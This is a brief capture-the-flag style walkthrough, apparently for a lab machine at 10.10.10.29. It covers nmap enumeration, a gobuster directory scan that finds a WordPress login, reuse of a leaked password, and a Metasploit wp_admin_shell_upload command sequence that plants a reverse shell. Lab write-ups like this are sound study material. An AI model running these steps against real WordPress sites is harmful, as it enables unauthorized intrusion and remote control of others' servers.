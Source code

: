# Steps

## Enumeration

```bash
80/tcp   open  http    Microsoft IIS httpd 10.0
3306/tcp open  mysql   MySQL (unauthorized)
Microsoft Windows Server 2016 (91%)
```

```bash
gobuster dir -u 10.10.10.29 -w /usr/share/dirbuster-ng/wordlists/common.txt
```

> http://10.10.10.29/wordpress/wp-login.php

## Entry

We test every password found on previous machines:

> `P@s5w0rd!` works

We can now plant a reverse shell using msf:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
set password P@s5w0rd!
set username admin
set rhosts 10.10.10.29
set targeturi /wordpress
run
```
